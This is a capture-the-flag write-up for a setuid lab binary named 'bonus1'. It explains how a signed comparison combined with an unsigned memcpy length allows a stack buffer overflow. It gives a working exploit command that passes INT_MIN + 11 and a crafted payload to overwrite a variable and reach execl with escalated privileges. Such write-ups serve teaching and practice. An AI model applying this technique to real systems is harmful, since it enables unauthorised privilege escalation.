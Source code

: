 # bonus1

## Solution
 * There is one file in our home, ```bonus1```, belonging to ```bonus2``` user, with suid.
 * Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

## Explanation
Keeping only the parts which matters:
 * Our stack looks this way ```c
	 char		buf[40];
	 int32_t		val;
 ```

 * The program starts with `val = atoi(av[1])`
 * If `(val > 9)` the program immediately returns
 * It then does a read on it : `memcpy(buf, av[2], val * 4)`
 	* We would like to make a buffer overflow here, but we need `(val == 11)`
 * Finally if `(val == 0x574f4c46)` we get access to `execl`

## Execution
To have a long enough size for `memcpy` we can abuse the fact that the 1st comparison `(val > 9)` is signed while the `3rd argument of memcpy()` is unsigned:

We can launch the program this way:
```sh
./bonus1 -2147483637 `python -c "print('?' * 40 + '464c4f57'.decode('hex'))"`
```

We have chosen `-2147483637` as it is equal to `INT_MIN + 11`.
Allowing us to complete this bonus.
